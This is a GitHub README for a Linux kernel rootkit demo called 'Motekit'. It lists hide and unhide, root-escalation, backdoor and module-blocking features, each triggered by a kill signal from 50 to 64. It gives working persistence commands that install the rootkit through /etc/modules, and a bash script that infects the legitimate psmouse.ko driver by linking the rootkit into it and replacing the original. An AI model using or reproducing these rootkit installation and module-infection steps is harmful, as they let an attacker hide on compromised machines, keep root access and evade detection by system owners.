# Motekit

> Description：Simple Rootkit Demo
>
> Base：ubuntu16.04
>
> Kernel：4.15.0-66


## Target

- [x] Hide/Unhide Module

  - [x] lsmod
  - [x] /proc/modules
  - [x] /sys/module

- [ ] Get sys_call_table 

  - [x] Brute force
  - [ ] via MSR_LSTAR register
  - [ ] via /boot/System.map-$(uname -r)
  - [ ] etc....

- [x] Hide/Unhide File ( with  fixed prefix , have to improve )

- [x] Hide/Unhide Process ( with fixed pid , have to improve )

- [x] Hide/Unhide Port ( with fixed port , have to improve  )

- [x] GetRoot

  - [x] directly

- [x] SetBackdoor/CleanBackdoor

- [x] Persistence

  - [x] hijack psmouse module
  - [x] write into /etc/modules

- [x] Block Other Module

  

## Document

1. **Hide Module**

```
kill -50 [whataver pid]
```




2. **Unhide Module**

```
kill -51 [whataver pid]
```




3. **Hide File**

```
kill -52 [whataver pid]
```




4. **Unhide File**

```
kill -53 [whataver pid]
```




5. **Hide Process**

```
kill -54 [whataver pid]
```




6. **Unhide Process**

```
kill -55 [whataver pid]
```




7. **Hide Port**

```
kill -56 [whataver pid]
```




8. **Unhide Port**

```
kill -57 [whataver pid]
```




9. **Get Root Priviledge Directly**

```
kill -58 [whataver pid]
```




10. **Set Root BackDoor (Follow QuanZhi Backdoor Event)**

```
kill -59 [whataver pid]
```




11. **Clean The BackDoor**

```
kill -60 [whataver pid]
```




12. **Persistence**

```
kill -61 [whataver pid]
```

This is the easist way to persistence.

```
sudo cp myrootkit.ko /lib/modules/$(uanme -r)/kernel/drivers/
echo 'myrootkit' | sudo tee -a /etc/modules
sudo depmod
```





Second , I hijack the module psmouse.ko , however it doesn't work after i reboot my machine.

```
#!/bin/bash
cp /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko .
objcopy psmouse.ko gpsmouse.ko --globalize-symbol psmouse_init --globalize-symbol psmouse_exit
make --quiet
ld -r gpsmouse.ko myrootkit.ko -o infected.ko 
setsym infected.ko init_module $(setsym infected.ko hide_file_init)
setsym infected.ko cleanup_module $(setsym infected.ko hide_file_exit)
rmmod psmouse
insmod infected.ko
ls -al ./
rmmod psmouse
ls -al ./
cp infected.ko /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko
insmod /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko
```


13. Reverse shell ( TODO , not finished yet )

```
kill -62
```


14. Block Module

```
kill -63 [whataver pid]
```


15. Clear Block Module

```
kill -64 [whataver pid]
```


